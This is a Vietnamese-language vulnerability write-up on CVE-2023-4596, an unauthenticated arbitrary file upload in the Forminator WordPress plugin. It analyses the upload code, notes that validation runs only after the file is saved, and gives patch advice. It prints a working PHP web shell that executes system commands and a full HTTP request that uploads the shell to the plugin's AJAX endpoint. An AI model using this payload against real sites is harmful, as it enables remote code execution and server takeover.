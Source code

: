 # Critical Arbitrary File Upload Patched in Forminator Plugin CVE-2023-4596.
- CVE-2023-4596.
```js
- The Forminator plugin for WordPress is vulnerable to arbitrary file uploads due to file type validation occurring 
  after a file has been uploaded to the server in the upload_post_image() function in versions up to, and including, 1.24.6. 
- This makes it possible for unauthenticated attackers to upload arbitrary files on the affected site's 
  server which may make remote code execution possible.

Affected Versions: <= 1.24.6
CVSSv3 Vector: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
CVSSv3 Score: 9.8
```


### Setup
- Forminator Plugin 1.24.6.
- Tạo 1 form đăng bài viết 
![Alt text](./images/image.png)
- Tạo 1 trang dùng form để post
![Alt text](./images/image-1.png)

### Phân tích
- Lỗ hổng rất đơn giản nhưng ảnh hưởng lớn tới server.
- Lỗ hổng tồn tại ở chức năng wp-content/plugins/forminator/library/fields/postdata.php
![Alt text](./images/image-2.png)
- Chuẩn bị 1 file webshell test.php
```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
</html>
```

- Post file đó lên thì bị lỗi định dạng file

![Alt text](./images/image-3.png)

![Alt text](./images/image-4.png)
- Đoạn code thực hiện chức năng upload bình thường

```php
    // Làm sạch file_name
    $file_name = sanitize_file_name( $_FILES[ $field_name ]['name'] ); 
    // TODO: refactor upload to use WP filesystem api.

    // Lưu content file vào tmp
    $file_data        = file_get_contents( $_FILES[ $field_name ]['tmp_name'] );

    $upload_dir       = wp_upload_dir(); // Set upload folder.
    
    // Thay đổi tên file nếu tồn tại.
    $unique_file_name = wp_unique_filename( $upload_dir['path'], $file_name );
    $filename         = basename( $unique_file_name ); // Create base file name.

    // Kiểm tra path đã tồn tại hay chưa.
    if ( wp_mkdir_p( $upload_dir['path'] ) ) {
        $file = $upload_dir['path'] . '/' . $filename;
    } else {
        $file = $upload_dir['basedir'] . '/' . $filename;
    }

```

- Lỗ hổng tại chỗ xử lý logic upload file. Ở đây lại lưu file vào server rồi mới kiểm tra extension của file. 

![Alt text](./images/image-5.png)

- File được upload xong.

![Alt text](./images/image-6.png)

- Kiểm tra ext file xử lý sau nên sẽ trả về false

![Alt text](./images/image-7.png)

- Webshell
![Alt text](./images/image-9.png)

### Payload

```php
POST /wordpress/wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
Content-Length: 1629
sec-ch-ua: "Chromium";v="113", "Not-A.Brand";v="24"
Accept: */*
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary1fDEB96bG5MXdfjh
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.93 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost/wordpress/post-data/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: testcookie=; am_username=; am_check=; memarketing-_zldp=Mltw9Iqq5RQZSO3V%2BzsvBcNWWgn4MPqtgkD49oq5K0JAoyZxNsNt%2FX8EdhLYh1dsrq2vjv8sJRs%3D; selectedtab=2_1; selectedDropDown=monitortabtd; session_id=70169739c0413b46c980e543e69c53ee17d81244
Connection: close

------WebKitFormBoundary1fDEB96bG5MXdfjh
Content-Disposition: form-data; name="postdata-1-post-title"

RCE
------WebKitFormBoundary1fDEB96bG5MXdfjh
Content-Disposition: form-data; name="postdata-1-post-image"; filename="test.php"
Content-Type: application/octet-stream

<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
</html>
------WebKitFormBoundary1fDEB96bG5MXdfjh
Content-Disposition: form-data; name="referer_url"


------WebKitFormBoundary1fDEB96bG5MXdfjh
Content-Disposition: form-data; name="forminator_nonce"

5898491232
------WebKitFormBoundary1fDEB96bG5MXdfjh
Content-Disposition: form-data; name="_wp_http_referer"

/wordpress/post-data/
------WebKitFormBoundary1fDEB96bG5MXdfjh
Content-Disposition: form-data; name="form_id"

37
------WebKitFormBoundary1fDEB96bG5MXdfjh
Content-Disposition: form-data; name="page_id"

39
------WebKitFormBoundary1fDEB96bG5MXdfjh
Content-Disposition: form-data; name="form_type"

default
------WebKitFormBoundary1fDEB96bG5MXdfjh
Content-Disposition: form-data; name="current_url"

http://localhost/wordpress/post-data/
------WebKitFormBoundary1fDEB96bG5MXdfjh
Content-Disposition: form-data; name="render_id"

0
------WebKitFormBoundary1fDEB96bG5MXdfjh
Content-Disposition: form-data; name="action"

forminator_submit_form_custom-forms
------WebKitFormBoundary1fDEB96bG5MXdfjh--


```

### Patch và giải pháp
- Update lên phiên bản 1.25.0 hoặc theo hướng dẫn của nhà sản xuất.
- Ở bản vá thì kiểm tra extension file xong rồi mới upload file.
![Alt text](./images/image-8.png)

# Tham khảo
- https://patchstack.com/articles/critical-arbitrary-file-upload-patched-in-forminator-plugin/
- https://www.exploit-db.com/exploits/51664
- https://plugins.trac.wordpress.org/changeset/2954409/forminator/tags/1.25.0/library/fields/postdata.php?old=2935040&old_path=forminator%2Ftags%2F1.24.6%2Flibrary%2Ffields%2Fpostdata.php

